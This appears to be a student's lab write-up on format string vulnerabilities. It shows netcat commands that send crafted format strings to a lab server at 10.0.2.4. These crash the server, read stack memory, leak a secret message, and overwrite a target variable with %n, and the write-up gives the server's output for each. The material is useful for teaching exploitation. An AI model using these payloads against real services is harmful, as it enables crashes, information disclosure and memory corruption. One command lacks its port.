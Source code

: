 send any illegal format string to the server. the server will crash.

For instance,

```bash
echo %s%s%s | nc -u 10.0.2.4 9090
```

The server will print an error message (`Segmentation fault`) and exit.

# Task 4

## Task 4.A

```bash
python -c 'print "%9$8x"' > badfile
nc -u 10.0.2.4  < badfile
```

```bash
The ebp value inside myprintf() is: 0xbffff038
bffff038
The value of the 'target' variable (after): 0x11223344
```
`bffff038` is the address of `ebp` in `myprintf`.

## Task 4.B

```bash
python -c 'print "\x70\x88\x04\x08%80$s"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

And the server gives info:

```
The ebp value inside myprintf() is: 0xbffff038
... secret message
The value of the 'target' variable (after): 0x11223344
```

# Task 5

## Task 5.A

```bash
python -c 'print "\x44\xa0\x04\x08%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
...
The value of the 'target' variable (after): 0x00000004
```
